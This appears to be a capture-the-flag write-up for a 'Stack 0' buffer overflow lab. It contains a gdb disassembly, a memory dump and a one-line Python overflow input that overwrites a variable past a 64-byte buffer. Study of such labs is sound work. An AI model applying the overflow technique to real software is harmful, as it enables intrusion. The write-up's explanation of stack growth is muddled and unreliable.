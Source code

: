 # Write up
## Stack 0
        The esp(current stack pointer) grows upward when allocating memory 
        and the higher the esp goes, it points to smaller address number.
        Thus, you need to overwrite all the space of buffer(64 bytes) 
        and then overwrite the allocated space for int modified.

### Process
    $ gdb -q ./stack0
    (gdb) disas main
        Dump of assembler code for function main:
            0x080483f4 <+0>:     push   %ebp
            0x080483f5 <+1>:     mov    %esp,%ebp
            0x080483f7 <+3>:     and    $0xfffffff0,%esp
            0x080483fa <+6>:     sub    $0x60,%esp
            0x080483fd <+9>:     movl   $0x0,0x5c(%esp)
            0x08048405 <+17>:    lea    0x1c(%esp),%eax
            0x08048409 <+21>:    mov    %eax,(%esp)
            0x0804840c <+24>:    call   0x804830c <gets@plt>
            0x08048411 <+29>:    mov    0x5c(%esp),%eax
            0x08048415 <+33>:    test   %eax,%eax
            0x08048417 <+35>:    je     0x8048427 <main+51>
            0x08048419 <+37>:    movl   $0x8048500,(%esp)
            0x08048420 <+44>:    call   0x804832c <puts@plt>
            0x08048425 <+49>:    jmp    0x8048433 <main+63>
            0x08048427 <+51>:    movl   $0x8048529,(%esp)
            0x0804842e <+58>:    call   0x804832c <puts@plt>
            0x08048433 <+63>:    leave
            0x08048434 <+64>:    ret
        End of assembler dump.
    (gdb) b *main+29
    (gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
            Breakpoint 1, main (argc=1,argv=0xffffd634) at stack0/stack0.c:13
            13      stack0/stack0.c: No such file or directory.
    (gdb) x/60x $esp
        0xffffd530: 0xffffd54c  0xffffd5d4  0xf7fb8000  0x0000cd57
        0xffffd540: 0xffffffff  0x0000002f  0xf7e12dc8  0x41414141
        0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x41414141  0x41414141  0x00004141  0xf7e34c0b
        0xffffd580: 0xf7fb83dc  0x080481e8  0x0804845b  0x00000000
        0xffffd590: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5a0: 0x00000001  0xffffd634  0xffffd63c  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5c0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5d0: 0x00000000  0x607935e6  0x5c199bf6  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0x00000001  0x08048340
        0xffffd5f0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd600: 0x00000001  0x08048340  0x00000000  0x08048361
        0xffffd610: 0x080483f4  0x00000001  0xffffd634  0x08048450

    buffer[64]: from last stack of line 0xffffd540 
                to 3rd stack of line 0xffffd580 
                -> 64 bytes needs to be overwritten
    modified: from last stack of line 0xffffd580
### Method
    Use more than 64 bytes to overwrite

### Answer
    python -c 'print "A"*68' | ./stack0
    
    

    
    
    
